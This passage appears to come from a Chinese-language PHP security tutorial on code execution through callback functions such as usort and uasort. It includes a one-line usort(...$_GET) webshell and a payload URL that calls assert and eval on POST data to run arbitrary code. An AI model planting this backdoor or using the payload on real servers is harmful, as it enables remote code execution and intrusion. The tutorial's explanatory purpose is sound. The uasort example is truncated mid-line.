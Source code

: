 ```php
<?php 
    usort(...$_GET);
?>

payload: 1.php?1[0]=0&1[1]=eval($_POST['x'])&2=assert
POST传参: x=phpinfo();
```

`usort`的参数通过GET传参，第一个参数也就是`$_GET[0]`，随便传入一个数字即可。第二个参数也就是`$_GET[1]`是我们要调用的函数名称，这里采用的是`assert`函数。

执行结果：

![](/assets/wgpsec/images/20200819235236.png)

### uasort()

这个跟上一个差不多，区别不是很大。此函数对数组排序并保持索引和单元之间的关联。也就是说你这个排完序之后呢，它原来对应的索引也会相应改变，类似于“绑定”。

```php
uasort( array &$array, callable $value_compare_func) : bool
```

#### 参数

- array：输入的数组
- value_compare_func：用户自定义的函数

这里用的仍然官方例子（比较好理解）

```php
<?php
// Comparison function
function cmp($a, $b) {
    if ($a == $b) {
        return 0;
    }
    return ($a < $b) ? -1 : 1;
}

// Array to be sorted
$array = array('a' => 4, 'b' => 8, 'c' => -1, 'd' => -9, 'e' => 2, 'f' => 5, 'g' => 3, 'h' => -4);
print_r($array);

// Sort and print the resulting array
uasort($array, 'cmp');
print
?>
       
执行结果——>
Array
(
    [a] => 4
    [b] => 8
    [c] => -1
    [d] => -9
    [e] => 2
    [f] => 5
    [g] => 3
    [h] => -4
)
Array
(
    [d] => -9
    [h] => -4
    [c] => -1
    [e] => 2
```